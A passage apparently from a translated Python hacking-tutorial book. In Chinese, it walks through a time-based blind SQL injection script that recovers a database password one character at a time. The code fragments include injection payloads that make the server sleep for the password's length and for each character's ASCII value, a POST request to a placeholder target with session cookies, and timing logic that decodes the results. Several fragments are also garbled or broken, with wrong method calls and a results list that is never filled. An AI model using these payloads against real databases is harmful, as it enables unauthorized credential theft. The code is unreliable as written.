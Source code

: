 和往常一样，我们导入所需的库并声明我们需要稍后填充的列表。我们还在这里有一个函数，说明脚本确实已经开始。在某些基于时间的函数中，用户可能需要等待一段时间。在这个脚本中，我还使用了`request`库来包含 cookies。对于这种攻击，可能需要进行身份验证：

```py
times = []
print “Kicking off the attempt”
cookies = {'cookie name': 'Cookie value'}
```

我们在字典中设置了我们的有效载荷以及一个提交按钮。攻击字符串足够简单，通过一些解释就可以理解。初始的撇号必须被转义为字典内的文本。该撇号最初中断了 SQL 命令，并允许我们输入自己的 SQL 命令。接下来，我们说在第一个命令失败的情况下，执行以下命令与`OR`。然后，我们告诉服务器为密码列中第一行中的每个字符休眠一秒。最后，我们用分号关闭语句，并用井号（或者如果你是美国人和/或错误的话，用英镑）注释掉任何尾随字符：

```py
payload = {'injection': '\'or sleep char_length(password);#', 'Submit': 'submit'}
```

然后我们将服务器响应所花费的时间长度设置为`firstreponsetime`参数。我们将使用这个参数来理解我们需要通过这种方法暴力破解多少个字符：

```py
firstresponsetime = str(req.elapsed).total_seconds
```

我们创建一个循环，将`x`设置为从标识的字符串的长度为`1`到所有数字，并对每个数字执行一个操作。我们从这里开始是因为 MySQL 从`1`开始计数，而不是像 Python 一样从零开始：

```py
for x in range(1, firstresponsetime):
```

我们制作了一个类似之前的有效载荷，但这次我们说在密码列的密码的第一个字符的 ascii 值处休眠。因此，如果第一个字符是小写 a，那么对应的 ascii 值是 97，因此系统会休眠 97 秒。如果是小写 b，它将休眠 98 秒，依此类推：

```py
payload = {'injection': '\'or sleep(ord(substr(password, '+str(x)+', 1)));#', 'Submit': 'submit'}
```

我们每次为字符串中的每个字符位置提交我们的数据。

```py
req = requests.post('<target url>', data=payload, cookies=cookies)
```

我们获取每个请求的响应时间，记录服务器休眠的时间，然后将该时间从 ascii 值转换回字母：

```py
responsetime = req.elapsed.total_seconds
  a = chr(responsetime)
```

对于每次迭代，我们打印出当前已知的密码，然后最终打印出完整的密码：

```py
answer = ''.join(times)
print “Recovered String: “+ answer
```

## 还有更多...

这个脚本提供了一个可以适应许多不同情况的框架。Wechall，这个网站挑战网站，设置了一个有时间限制的盲目 SQLi 挑战，必须在很短的时间内完成。以下是我们的原始脚本，已经适应了这个环境。正如你所看到的，我不得不考虑到不同值的较小时间差异和服务器延迟，并且还包括了一个检查方法，每次重置测试值并自动提交它：
